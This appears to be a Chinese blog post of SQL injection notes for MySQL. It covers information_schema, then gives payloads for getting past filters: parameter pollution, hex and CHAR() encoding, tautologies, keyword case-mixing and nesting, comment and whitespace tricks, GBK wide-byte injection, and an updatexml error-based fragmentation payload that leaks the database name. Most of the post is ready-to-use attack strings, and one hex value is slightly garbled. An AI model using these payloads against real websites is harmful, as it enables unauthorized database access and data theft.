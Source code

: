 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息  
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
### 查找有用的列名  
	where column_name LIKE ‘%PASS%’  
遇到单引号转译，可以考虑使用16进制绕过 

	table_name=’users ’——》table_name=0×757365727  
避开过滤
  输入单引号没反应，尝试“  
单引号被阻止：  
1、where name=‘Marcus’ 可以使用ascii 替代字符串不必使用单引号 ‘a’->CHR(97)  

2、在mysql中连接字符串是CONCAT函数select name=concat(CHAR(97),char(114))，oracle中 select name=chr(97)||chr(114)， Ms-SQL中 select name=char(97)+char(114)  
    
--注释符被阻止时考虑闭合：  

     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a   
     
单纯的闭合  

	‘ playload and '

=号 被禁止： 
    使用<>（不等于）例：  
    	!(table_schema<>database())
        
关键字过滤：  
	
    select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54  

                                   
  空格过滤：  
  
    1、使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    2、在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
    3、 %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true  
  

在url中使用--注释时，可能会需要使用--+才能成功注释  


and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：  
    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)：  
    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1

